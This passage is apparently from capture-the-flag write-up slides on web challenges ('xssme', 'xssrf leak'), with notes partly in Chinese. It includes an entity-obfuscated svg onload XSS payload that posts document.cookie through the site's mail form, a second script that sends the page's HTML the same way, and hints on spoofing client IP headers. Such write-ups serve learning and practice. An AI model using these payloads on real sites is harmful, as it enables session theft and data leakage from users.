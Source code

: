 <svg/onload=&#x76;&#x61;&#x72;&#x20;&#x78;&#x68;&#x74;&#x74;&#x70;&#x20;&#x3d;&#x20;&#x6e;&#x65;&#x77;&#x20;&#x58;&#x4d;&#x4c;&#x48;&#x74;&#x74;&#x70;&#x52;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x28;&#x29;&#x3b;&#x0a;&#x78;&#x68;&#x74;&#x74;&#x70;&#x2e;&#x6f;&#x70;&#x65;&#x6e;&#x28;&#x22;&#x50;&#x4f;&#x53;&#x54;&#x22;&#x2c;&#x20;&#x22;&#x73;&#x65;&#x6e;&#x64;&#x6d;&#x61;&#x69;&#x6c;&#x2e;&#x70;&#x68;&#x70;&#x22;&#x29;&#x3b;&#x0a;&#x78;&#x68;&#x74;&#x74;&#x70;&#x2e;&#x73;&#x65;&#x74;&#x52;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x48;&#x65;&#x61;&#x64;&#x65;&#x72;&#x28;&#x22;&#x43;&#x6f;&#x6e;&#x74;&#x65;&#x6e;&#x74;&#x2d;&#x54;&#x79;&#x70;&#x65;&#x22;&#x2c;&#x20;&#x22;&#x61;&#x70;&#x70;&#x6c;&#x69;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x2f;&#x78;&#x2d;&#x77;&#x77;&#x77;&#x2d;&#x66;&#x6f;&#x72;&#x6d;&#x2d;&#x75;&#x72;&#x6c;&#x65;&#x6e;&#x63;&#x6f;&#x64;&#x65;&#x64;&#x22;&#x29;&#x3b;&#x0a;&#x78;&#x68;&#x74;&#x74;&#x70;&#x2e;&#x73;&#x65;&#x6e;&#x64;&#x28;&#x22;&#x74;&#x6f;&#x5f;&#x75;&#x73;&#x65;&#x72;&#x3d;&#x61;&#x62;&#x63;&#x64;&#x65;&#x26;&#x73;&#x75;&#x62;&#x6a;&#x65;&#x63;&#x74;&#x3d;&#x63;&#x6f;&#x6f;&#x6b;&#x69;&#x65;&#x26;&#x63;&#x6f;&#x6e;&#x74;&#x65;&#x6e;&#x74;&#x3d;&#x22;&#x2b;&#x64;&#x6f;&#x63;&#x75;&#x6d;&#x65;&#x6e;&#x74;&#x2e;&#x63;&#x6f;&#x6f;&#x6b;&#x69;&#x65;&#x29;&#x3b;>
```
* [Back to Web](#/1)

---

## xssrf leak hint
* 目標 : Steal flag from source code file
* 切入點
  * 延續 xssme
  * [SSRF](https://ctf-wiki.github.io/ctf-wiki/web/ssrf/)
* 步驟
  * [step1, search, 找出目標](#/37)
  * [step2, construct, 建構語法](#/38)

Note:
* google 搜尋 XSSRF 就會找一些關鍵字, 有一點勝之不武
  * robots.txt, 要重新學習並整合滲透測試的網站資訊收集, 給一個 domain, 要收集哪些東西.
  * request.php
  * 有點可惜, 應該好好看看 SSRF 應該可以自己找的到, 很多 web 的還是不熟, 放下身段學習.
* SSRF 不熟, 其實可以快一點建立測試環境, 會比較快.

---

## xssrf leak cookie
* PHPSESSID = xxx
  * Admin only allowed from localhost, but you came from 192.168.123.1
    * [如何正確的取得使用者 IP？](https://devco.re/blog/2014/06/19/client-ip-detection/) 
    * Client-IP
    * X-Forwarded-For
    * REMOTE_ADDR
    * ...
* 但是方向看起來錯了

---

## xssrf leak construct 1
```
var xhttp = new XMLHttpRequest();
xhttp.open("POST", "sendmail.php");
xhttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhttp.send("to_user=abcde&subject=cookie&content="+btoa(document.documentElement.innerHTML));
```
Note:<svg/onload=>

---

## xssrf leak html
* sendmail.php
* index.php
* setadmin.php
```